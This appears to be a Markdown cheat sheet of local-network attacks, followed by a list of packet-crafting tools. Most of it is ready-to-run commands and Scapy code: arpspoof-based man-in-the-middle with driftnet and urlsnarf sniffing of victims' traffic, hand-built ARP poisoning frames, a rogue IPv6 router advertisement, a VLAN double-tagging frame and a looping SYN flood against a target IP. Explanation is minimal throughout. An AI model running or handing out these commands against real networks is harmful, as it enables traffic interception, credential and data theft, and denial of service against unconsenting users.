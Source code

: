# Arp Spoofing
```shell
sudo apt-get install dsniff             #This will install arpspoof
sudo apt-get install driftnet         # Driftnet will capture images over the wire
```
# Need to enable ip forwarding for ipv4 to have the system act as a router. 
```shell 
echo 1 > /proc/sys/net/ipv4/ip_forward
    or
sysctl -w net.ipv4.ip_forward=1

rpspoof -i (eth0) -t (target to send spoof to) (address you are spoofing)

#Setup arpspoof to posion 10.0.0.103 to tell him you are 10.0.0.104.
arpspoof -i eth0 -t 10.0.0.103 10.0.0.104
#Setup arpspoof to poison 10.0.0.104 to tell him you are 10.0.0.103.
arpspoof -i eth0 -t 10.0.0.104 10.0.0.103
#As 'proof of concept' we will use driftnet to capture unencrypted images sent over the wire.
driftnet -i eth0
#Also as 'proof of concept' we will use urlsnarf which will capture any URLs it sees over the wire,
urlsnarf -i eth0
```
# Packet Manipulation
```shell
# -- ARP to Poison Victim 1 to pretend to be Victim 2 --
a = Ether()
a.src= "Your MAC"
a.dst= "Victim 1 MAC"
a.type= 0x0806

b = ARP()
b.op= 2
b.hwsrc= "Your MAC"
b.psrc= "Victim 2 IP"    #Who you are pretending to be
b.hwdst= "Victim 1 MAC"  #Who's ARP cache you are trying to poison
b.pdst= "Victim 1 IP"    #Who's ARP cache you are trying to poison

# -- ARP to Poison Victim 2 to pretend to be Victim 1 --
c = Ether()
c.src= "Your MAC"
c.dst= "Victim 2 MAC"
c.type= 0x0806

d = ARP()
d.op= 2
d.hwsrc= "Your MAC"
d.psrc= "Victim 1 IP"    #Who you are pretending to be
d.hwdst= "Victim 2 MAC"  #Who's ARP cache you are trying to poison
d.pdst= "Victim 2 IP"    #Who's ARP cache you are trying to poison

a.show()
b.show()
c.show()
d.show()

sendp(a/b); sendp(c/d)
#sendp = send RAW socket from a modified L2 header and up
```
# Scapy for SLAAC ICMPv6:
```shell
a = IPv6()
a.dst = "ff02::1"

b = ICMPv6ND_RA()

c = ICMPv6NDOptSrcLLAddr()
c.lladdr = "your MAC"    #This is to add to their ARP cache

d = ICMPv6NDOptMTU()

e = ICMPv6NDOptPrefixInfo()
e.prefixlen= 64
e.prefix= "2001:abcd:1234:abcd::"  #Can be any prefix that is not reserved already

a.show()
b.show()
c.show()
d.show()
e.show()

send(a/b/c/d/e)
#send = send a RAW Socket with a stardards L2 header but L3 and up are modified.
```
# Scapy for VLAN:
```shell
a=Ether()
a.dst="ff:ff:ff:ff:ff:ff"
a.src="01:02:03:aa:bb:cc"
a.type=0x8100            #VLAN Tag will Follow

b=Dot1Q()
b.vlan=1                #Native VLAN
b.type=0x8100            #Another VLAN Tag will Follow

c=Dot1Q()
c.vlan=20                #Target VLAN
c.type=0x0800            #IPv4 or any other Ethertype that is encapsulated

d=IP()
d.proto=6                #specifies that TCP is encapsulated. Change to 1 for ICMP or 17 for UDP.
d.src="10.10.0.40"      #Any source IP
d.dst="172.16.82.106"    #Target IP

e=TCP()
e.sport=54321
e.dport=80

f="message"

a.show()
b.show()
c.show()
d.show()
e.show()

sendp(a/b/c/d/e/f)
```
# Scapy SYN Flood:
```shell
a=IP()
a.proto=6              #specifies that TCP is encapsulated
a.src="10.10.0.40"    #Any source IP
a.dst="172.16.82.106"  #Target IP

b=TCP()
b.sport=RandShort()    #Randomizes Sport
b.dport=80            #Target Dport
b.flags="S"            #use SYN flag

a.show()
b.show()

send(a/b, loop=1, verbose=0)        #loop until ctrl+c
```
Other Packet Crafting tools 
https://resources.infosecinstitute.com/topic/15-best-free-packet-crafting-tools/#gref

Hping - http://www.hping.org/
Ostinato - http://ostinato.org/
Libcrafter - https://code.google.com/p/libcrafter/
Yersinia  - http://www.yersinia.net | https://tools.kali.org/vulnerability-analysis/yersinia | https://github.com/tomac/yersinia
packETH - http://packeth.sourceforge.net/
Colasoft Packet Builder - http://www.colasoft.com/download/products/download_packet_builder.php
Bit-Twist - http://bittwist.sourceforge.net/
Libtins - http://libtins.github.io/
WireEdit - https://wireedit.com/downloads.html
epb – Ethernet Packet Bombardier - http://maz-programmersdiary.blogspot.fi/2012/05/epb-ethernet-package-bombardier.html
Fragroute - http://www.monkey.org/~dugsong/fragroute/
Mausezahn -    http://www.perihel.at/sec/mz/